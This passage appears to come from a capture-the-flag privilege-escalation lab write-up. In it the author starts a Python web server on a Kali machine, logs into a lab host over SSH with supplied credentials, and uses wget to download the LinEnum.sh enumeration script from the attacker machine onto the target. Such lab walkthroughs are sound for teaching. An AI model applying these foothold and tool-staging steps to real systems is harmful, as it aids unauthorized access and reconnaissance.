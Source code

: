 There's also a lot of other useful information contained in this scan. Lets have a read!



First, lets SSH into the target machine, using the credentials user3:password. This is to simulate getting a foothold on the system as a normal privilege user. *No answer needed*


```
┌──(kali㉿kali)-[~/Downloads]
└─$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.122.19 - - [25/Aug/2022 00:33:33] "GET /LinEnum.sh HTTP/1.1" 200 -


┌──(kali㉿kali)-[~/Downloads]
└─$ ssh user3@10.10.122.19    
The authenticity of host '10.10.122.19 (10.10.122.19)' can't be established.
ED25519 key fingerprint is SHA256:jLEFDbU9QfFrO7qiwZE+2jefy4BgIndRJj79zvdIZoE.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.122.19' (ED25519) to the list of known hosts.
user3@10.10.122.19's password: 
Welcome to Linux Lite 4.4 (GNU/Linux 4.15.0-45-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

413 packages can be updated.
195 updates are security updates.


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

Welcome to Linux Lite 4.4 user3
 
Thursday 25 August 2022, 00:32:48
Memory Usage: 341/1991MB (17.13%)
Disk Usage: 6/217GB (3%)
Support - https://www.linuxliteos.com/forums/ (Right click, Open Link)
 
user3@polobox:~$ wget http://10.11.81.220:8000/LinEnum.sh
--2022-08-25 00:33:32--  http://10.11.81.220:8000/LinEnum.sh
Connecting to 10.11.81.220:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 46631 (46K) [text/x-sh]
Saving to: ‘LinEnum.sh’

LinEnum.sh             100%[===========================>]  45.54K   108KB/s    in 0.4s    

2022-08-25 00:33:33 (108 KB/s) - ‘LinEnum.sh’ saved [46631/46631]

user3@polobox:~$ ls
Desktop    Downloads   Music     Public  Templates
Documents  LinEnum.sh  Pictures  shell   Videos
```